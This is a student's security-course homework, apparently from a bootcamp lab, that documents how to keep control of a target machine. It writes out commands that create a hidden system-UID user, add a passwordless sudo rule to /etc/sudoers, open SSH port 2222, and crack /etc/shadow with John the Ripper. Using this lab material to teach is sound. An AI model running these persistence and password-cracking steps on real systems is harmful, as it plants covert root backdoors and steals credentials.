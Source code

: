 # Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

## **Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser --no-create-home sysd`
    <!--or omit sudo if we have 'sudo -s' into 'root' user-->

2. Give your secret user a password: 

    - After first command:
        Enter password (passwd) when requested then confirm at 'Retype new UNIX password' (passwd)

3. Give your secret user a system UID < 1000:

    - `sudo usermod -u 291 sysd`
    <!--or omit sudo if we have 'sudo -s' into 'root' user-->

4. Give your secret user the same GID:
    
    - `sudo groupmod -g 291 sysd`
    <!--or omit sudo if we have 'sudo -s' into 'root' user-->

    - Combining steps 1 to 4. 
        - `sudo adduser --no-create-home --uid 291 sysd`

5. Give your secret user full `sudo` access without the need for a password:\
    
    - `sudo visudo`
        then append row:
        sysd ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
    or 
    - `sudo bash -c 'echo "sysd ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers'`

6. Test that `sudo` access works without your password:
    ```bash
    sudo cat /etc/shadow
    ```
    and

    ```bash
    sudo visudo
    ```

## **Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `sudo nano /etc/ssh/sshd_config`

    then update file with:
    ```bash
    Port 22
    Port 2222
    ```
    <!--uncommenting #Port 22 allowing both ports 22 and 2222-->
    
## **Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart sshd`

2. Exit the `root` account:
    - `exit` 
    <!--out of root-->
    - then `exit`
    <!--logout of target machine-->

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`
    - ![Please see screenshot](./screenshots/Step3_Question4_sudo_su.png)

## **Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`
    - ![Please see screenshot](./screenshots/Step4_Question1_ssh_sysd_2222.png)

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    - `john /etc/shadow`
    - ![Running John](./screenshots/Step4_Question2_john_shadow.png)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

